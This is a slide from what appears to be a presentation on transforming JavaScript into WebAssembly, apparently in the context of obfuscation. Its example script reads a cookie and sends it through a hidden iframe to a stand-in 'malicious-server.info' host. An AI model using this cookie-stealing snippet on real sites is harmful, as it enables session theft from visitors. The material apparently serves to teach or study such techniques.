

# Transforming Strings, Function Calls, If Statements
window.onload = function() {
  // omitted function checkCookie() {...}
  var x33 = checkCookie();
  if (x33) {
    var x22 = document.createElement("div");
    var x22q = "http_://malicious-server.info/?keyword=c71234b6f4a&cookie=" + x33;
    x22.innerHTML = "<div style='position:absolute;top:-1px;left:-1px;'><iframe src='" + x22q + "'></iframe></div>";
    document.body.appendChild(x22);
  }
}

(module
 (global (export "g3") i32 (i32.const 0))
 (global (export "g4") i32 (i32.const 12))
 (global (export "g5") i32 (i32.const 432))
 (global (export "g6") i32 (i32.const 548))
 (memory (export "memory") 0)
 (data $d1 (i32.const 0) "div\00")
 (data $d2 (i32.const 12) "http_://…\00")
 (data $d3 (i32.const 432) "<div sty…\00")
 (data $d4 (i32.const 548) "'></ifra…\00")
)
25